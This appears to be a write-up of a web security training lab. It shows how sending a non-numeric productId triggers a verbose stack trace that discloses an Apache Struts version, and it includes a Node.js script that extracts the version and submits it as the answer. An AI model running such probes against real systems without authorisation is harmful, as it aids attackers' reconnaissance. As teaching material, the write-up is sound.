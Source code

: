 # 1 - Error Messages

This lab's verbose error messages reveal that it is using a vulnerable version of a third-party framework. To solve the lab, obtain and submit the version number of this framework.

### Notes

The application queries products via the `productId` query parameter. When a string value is supplied, it responds with a 500 error containing a verbose error message from the framework:

`GET /product?productId=foo HTTP/1.1`

```http
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 1520

Internal Server Error: java.lang.NumberFormatException: For input string: "foo"
at java.base/java.lang.NumberFormatException.forInputString(NumberFormatException.java:67)

...

Apache Struts 2 2.3.31
```

### Scripted Solution

```javascript
const axios = require('axios').default
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const labUrl = process.env.LAB_URL

  // Trigger error by requesting product id 'foo'
  try {
    await axios.get(`${labUrl}/product?productId=foo`)
  } catch (errorRes) {
    const resBody = errorRes.response.data

    // Parse response body into array by line
    const errorLines = resBody.split(/\r?\n/)

    // 'Apache Struts 2 2.3.31' is the last line of the response
    const framework = errorLines[errorLines.length - 1]
    let frameworkVersion = framework.split(' ')
    frameworkVersion = frameworkVersion[frameworkVersion.length - 1]

    // Submit version number to solve the lab
    await axios.post(`${labUrl}/submitSolution`, `answer=${frameworkVersion}`)
  }
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })

```

